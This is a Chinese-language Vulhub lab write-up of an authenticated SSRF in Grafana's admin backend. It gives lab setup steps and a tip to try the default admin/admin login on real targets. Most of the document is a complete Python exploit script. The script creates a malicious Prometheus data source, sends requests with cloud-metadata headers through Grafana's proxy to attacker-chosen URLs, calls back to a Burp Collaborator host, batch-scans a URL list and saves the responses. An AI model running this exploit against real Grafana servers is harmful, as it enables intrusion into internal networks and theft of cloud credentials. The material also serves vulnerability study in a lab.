


# Grafana管理后台SSRF

## 漏洞描述

Grafana是一个开源的度量分析与可视化套件。在其管理后台中存在一个功能，攻击者可以用于向任意地址发送HTTP请求，且支持自定义HTTP Header。

参考链接：

- https://github.com/RandomRobbieBF/grafana-ssrf

## 漏洞环境

Vulhub执行如下命令启动一个Grafana 8.5.4：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`即可查看到管理后台。这个管理后台是不需要登录的，因为Vulhub环境设置了匿名用户的权限：

```
[auth.anonymous]
enabled = true
org_role = Admin
```

在真实场景中，如果你没有权限访问管理界面，可以尝试使用默认账号密码`admin`和`admin`，只能能够成功登录后台的用户才能利用这个漏洞。

## 漏洞复现

使用[这个POC](https://github.com/RandomRobbieBF/grafana-ssrf)来复现SSRF漏洞：

```
python grafana-ssrf.py -H http://your-ip:3000 -u http://example.com/attack
```



可见，反连平台已成功收到了HTTP请求：



## 漏洞POC

```python
#!/usr/bin/env python
#
# Grafana SSRF via promoethus
#
# Note: SSRF will not follow redirects!
#
# By @RandomRobbieBF
# 
#

import requests
import json
import sys
import argparse
import re
import os.path
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
session = requests.Session()


parser = argparse.ArgumentParser()
parser.add_argument("-s", "--session", required=False ,default="9765ac114207245baf67dfd2a5e29f3a",help="Session Cookie Value")
parser.add_argument("-u", "--url", required=False, default="http://8t2s8yx5gh5nw0z9bd3atkoprgx6lv.burpcollaborator.net",help="URL of host to check will need http or https")
parser.add_argument("-H", "--host", default="http://kubernetes.docker.internal:5000",required=True, help="Host for Grafana")
parser.add_argument("-f", "--file", default="urls.txt",required=False, help="File of URLS to check SSRF Against")
parser.add_argument("-U", "--username", default="",required=False, help="Username for Grafana")
parser.add_argument("-P", "--password", default="",required=False, help="Password for Grafana")
parser.add_argument("-p", "--proxy", default="",required=False, help="Proxy for debugging")

args = parser.parse_args()
ssrf_url = args.url
sessionid = args.session
ghost = args.host
files = args.file
username = args.username
password = args.password


if args.proxy:
	http_proxy = args.proxy
	os.environ['HTTP_PROXY'] = http_proxy
	os.environ['HTTPS_PROXY'] = http_proxy
            
        
def create_source(sessionid,ssrf_url,ghost):


	rawBody = "{\"name\":\"SSRF-TESTING\",\"type\":\"prometheus\",\"access\":\"proxy\",\"isDefault\":false}"
	headers = {"Origin":""+ghost+"","Accept":"application/json, text/plain, */*","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0","Referer":""+ghost+"/datasources/new","Connection":"close","x-grafana-org-id":"1","content-type":"application/json","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate"}
	cookies = {"grafana_session":""+sessionid+""}
	response = session.post(""+ghost+"/api/datasources", data=rawBody, headers=headers, cookies=cookies,verify=False)
	y = json.loads(response.text)
	if "Data source with same name already exists" in response.text:
		print("You will need to manually delete the current source that is named SSRF-TESTING")
		sys.exit(0)
	elif "id" in response.text:
		print("Source Created")
		return (y["id"])
	else:
		print ("Error:")
		print("Status code:   %i" % response.status_code)
		print(response.text)
		


def refresh_source(ghost,sessionid,id):
	headers = {"Accept":"application/json, text/plain, */*","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0","Referer":""+ghost+"/datasources/edit/6/","Connection":"close","x-grafana-org-id":"1","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate"}
	cookies = {"grafana_session":""+sessionid+""}
	response = session.get(""+ghost+"/api/datasources/"+id+"", headers=headers, cookies=cookies,verify=False)
	if response.status_code == 200:
		print("Refreshed Sources")
	else:
		print("Error:")
		print("Status code:   %i" % response.status_code)
		print(response.text)
		delete_source(sessionid,id,ghost)
		

def create_ssrf(sessionid,ssrf_url,ghost,id):
	rawBody = "{\"id\":"+id+",\"orgId\":1,\"name\":\"SSRF-TESTING\",\"type\":\"prometheus\",\"typeLogoUrl\":\"\",\"access\":\"proxy\",\"url\":\""+ssrf_url+"\",\"password\":\"test\",\"user\":\"test\",\"database\":\"test\",\"basicAuth\":false,\"basicAuthUser\":\"\",\"basicAuthPassword\":\"\",\"withCredentials\":false,\"isDefault\":false,\"jsonData\":{\"tlsSkipVerify\":true,\"httpHeaderName1\":\"Metadata-Flavor\",\"httpHeaderName2\":\"Metadata\",\"httpMethod\":\"GET\"},\"secureJsonData\":{\"httpHeaderValue1\":\"Google\",\"httpHeaderValue2\":\"true\"},\"version\":1,\"readOnly\":false}"
	headers = {"Origin":""+ghost+"","Accept":"application/json, text/plain, */*","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0","Referer":""+ghost+"/datasources/edit/6/","Connection":"close","x-grafana-org-id":"1","content-type":"application/json","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate"}
	cookies = {"grafana_session":""+sessionid+""}
	response = session.put(""+ghost+"/api/datasources/"+id+"", data=rawBody, headers=headers, cookies=cookies,verify=False)
	if response.status_code == 200:
		print("SSRF Source Updated")
	else:
		print("Error:")
		print("Status code:   %i" % response.status_code)
		print(response.text)
		delete_source(sessionid,id,ghost)
				
	

def check_ssrf(sessionid,id,ghost,ssrf_url):
	headers = {"Accept":"application/json, text/plain, */*","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0","Referer":""+ghost+"/datasources/edit/"+id+"/","Connection":"close","x-grafana-org-id":"1","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate","x-grafana-nocache":"true"}
	cookies = {"grafana_session":""+sessionid+""}
	response = session.get(""+ghost+"/api/datasources/proxy/"+id+"/", headers=headers, cookies=cookies,verify=False)
	if response.status_code != 502:
		print("Status code:   %i" % response.status_code)
		print("Response body:\n %s" % response.text)
		gghost = ghost.partition('://')[2]
		sub_addr = gghost.partition('.')[0]
		text_file = open(""+sub_addr+".txt", "a")
		text_file.write("SSRF URL: %s\n" % ssrf_url)
		text_file.write("Status code:   %i\n" % response.status_code)
		text_file.write("Response body: %s\n\n\n\n" % response.text)
		text_file.close()
		delete_source(sessionid,id,ghost)
	else:
		print("Error:")
		print(response.text)
		delete_source(sessionid,id,ghost)


def delete_source(sessionid,id,ghost):

	headers = {"Origin":""+ghost+"","Accept":"application/json, text/plain, */*","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0","Referer":""+ghost+"/datasources/edit/3/","Connection":"close","x-grafana-org-id":"1","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate"}
	cookies = {"grafana_session":""+sessionid+""}
	response = session.delete(""+ghost+"/api/datasources/"+id+"", headers=headers, cookies=cookies,verify=False)
	if "Data source deleted" in response.text:
		print("Deleted Old SSRF Source")
	else:
		print("Error:")
		print(response.text)
		sys.exit(0)


def login(ghost,username,password):
	rawBody = "{\"user\":\""+username+"\",\"password\":\""+password+"\",\"email\":\"\"}"
	headers = {"Origin":""+ghost+"","Accept":"application/json, text/plain, */*","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0","Referer":""+ghost+"/signup","Connection":"close","content-type":"application/json","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate"}
	cookies = {"redirect_to":"%2F"}
	response = session.post(""+ghost+"/login", data=rawBody, headers=headers, cookies=cookies,verify=False)
	if "grafana_session" in response.cookies:
		return response.cookies["grafana_session"]
	if "grafana_sess" in response.cookies:
		return response.cookies["grafana_sess"]
	else:
		print("Login Session Cookie not set")
		sys.exit(0)


if username:
	sessionid = login(ghost,username,password)
	


if ssrf_url:
	i = create_source (sessionid,ssrf_url,ghost)
	id = str(i)
	refresh_source(ghost,sessionid,id)
	create_ssrf(sessionid,ssrf_url,ghost,id)
	check_ssrf(sessionid,id,ghost,ssrf_url)

if files:
	if os.path.exists(files):
		with open(files, 'r') as f:
			for line in f:
				ssrf_url = line.replace("\n","")
				i = create_source (sessionid,ssrf_url,ghost)
				id = str(i)
				refresh_source(ghost,sessionid,id)
				create_ssrf(sessionid,ssrf_url,ghost,id)
				check_ssrf(sessionid,id,ghost,ssrf_url)
			f.close()
```

